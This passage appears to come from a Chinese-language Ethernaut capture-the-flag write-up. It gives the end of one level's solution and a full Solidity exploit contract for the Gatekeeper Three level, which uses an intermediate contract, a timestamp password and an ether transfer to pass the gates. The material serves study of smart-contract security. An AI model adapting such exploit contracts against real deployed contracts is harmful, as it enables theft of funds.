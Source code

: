 ```solidity

    function notify(uint256 amount) external {
        if(amount == 10) {
            revert NotEnoughBalance();
        }

    }
}
```

## 26-Gatekeeper three

直接调用方法修改 owner，使用中间合约可以保证 tx.orign 和 msg.sender 不同  
password=block.timestamp, 创建 trick 并同时传入 block.timestamp  
send ethers

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./GatekeeperThree.sol";

contract Hack{
    GatekeeperThree private gatekeeper3;

    constructor(address payable target) {
        gatekeeper3 = GatekeeperThree(target);
    }

    function hack() external payable{
        gatekeeper3.construct0r();

        gatekeeper3.createTrick();
        gatekeeper3.getAllowance(block.timestamp);

        //0.001000000000000001
        (bool success,) = address(gatekeeper3).call{value: msg.value}("");
        require(success, "transfer ether failed!");
        gatekeeper3.enter();

    }
}
```
